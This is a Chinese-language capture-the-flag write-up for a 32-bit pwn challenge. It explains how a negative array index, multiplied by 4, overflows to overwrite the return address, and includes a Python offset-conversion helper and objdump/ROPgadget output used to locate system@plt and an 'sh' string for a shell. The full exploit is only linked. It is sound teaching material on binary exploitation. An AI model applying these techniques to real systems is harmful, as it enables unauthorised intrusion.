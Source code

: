 ## pwn1 (pwn, 250p)

提供了以下文件：  
[pwn3](./pwn3)

---------------------------------------

### 0x1 分析程序
执行下程序，再用IDA分析下，一时没找到漏洞。
``` c
int sub_80485E7()
{
  int v1; // [sp+10h] [bp-48h]@2
  int v2; // [sp+14h] [bp-44h]@2
  int v3; // [sp+18h] [bp-40h]@6
  int j; // [sp+1Ch] [bp-3Ch]@6
  int i; // [sp+20h] [bp-38h]@1
  int buf[13]; // [sp+24h] [bp-34h]@1

  memset(buf, 0, 40u);
  for ( i = 0; i <= 9; ++i )
  {
    puts("enter index");
    fflush(stdout);
    __isoc99_scanf("%d", &v1);
    puts("enter value");
    fflush(stdout);
    __isoc99_scanf("%d", &v2);
    if ( v1 > 9 )
      exit(0);
    buf[v1] = v2;
  }
  puts("your input");
  v3 = fflush(stdout);
  for ( j = 0; j <= 9; ++j )
  {
    printf("%d ", buf[j]);
    v3 = fflush(stdout);
  }
  return v3;
}
```

下标`v1`的值是输入得来的，只要小于9就可以，那么也可以为负数。但往低地址写数据，这不能覆盖返回地址是没意义的。苦思冥想许久，无意间看了下对应的汇编:
```
.text:08048683                 mov     [ebp+eax*4+buf], edx
```

恩，这是个int数组，偏移是下标乘以4，那么就可能发生整数溢出，将负数变正数。再想想乘以4，其实就是左移2位。那么实际要写的偏移量先右移2位，再把最高位置1（变成负数）就即。这里还要注意一点是程序采用`%d`来读取数字，最大的正整数是2147483647，如果输入的数字比较这个大，那么`v1`还是2147483647。所以我们必须显式输入一个负数。可以采用ctypes.c_int来得到相应的负数形式，如下：

``` python
from ctypes import c_int

def chg(x):
	assert(x & 3 == 0)
	tmp = c_int(0x80000000 | (x >> 2))
	return str(tmp.value)
```	

下面的思路和pwn1基本是一样的，先查看下需要多少个字节才能溢出，在IDA的伪代码中：

```
# buf在栈中的位置
-00000048 v1              dd ?
-00000044 v2              dd ?
-00000040 v3              dd ?
-0000003C j               dd ?
-00000038 i               dd ?
-00000034 buf             dd 13 dup(?)
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
+00000008
+00000008 ; end of stack variables
```
可以看到56（0x34+4）个字节后将溢出覆盖返回地址。

### 0x2 构造exp
查看可以利用的plt函数
``` 
$ objdump -d -j .plt pwn3
# 下面是回显，省略了部分内容
08048410 <puts@plt>:
 8048410:	ff 25 14 a0 04 08    	jmp    *0x804a014
 8048416:	68 10 00 00 00       	push   $0x10
 804841b:	e9 c0 ff ff ff       	jmp    80483e0 <_init+0x24>

08048420 <system@plt>:
 8048420:	ff 25 18 a0 04 08    	jmp    *0x804a018
 8048426:	68 18 00 00 00       	push   $0x18
 804842b:	e9 b0 ff ff ff       	jmp    80483e0 <_init+0x24>
```

有了system函数，那再用ROPgadget找下是否有`/bin/sh`或`sh`字符串

``` 
$ ROPgadget --binary pwn3 --string "/bin/sh\0"
Strings information
============================================================

$ ROPgadget --binary pwn3 --string "sh\0"
Strings information
============================================================
0x080482ae : she
```

发现程序里确实有`sh`字符串，那exp也出来了。详细exp内容请看[exp2.py](./exp2.py)

### 0x3 结束语
1. 在比赛时并不知道可以直接用`system（sh）`，所以跟pwn1一样采用了相同的方式得到了`/bin/sh`地址。有兴趣请看[exp.py](./exp.py)
2. 在pwn2中是采用`%u`来读取数字的，不用考虑地址是否大于`0x7fffffff`。而这题中是采用`%d`来读取数字的，如果地址过大，要转换为对应的负数形式来进行输入。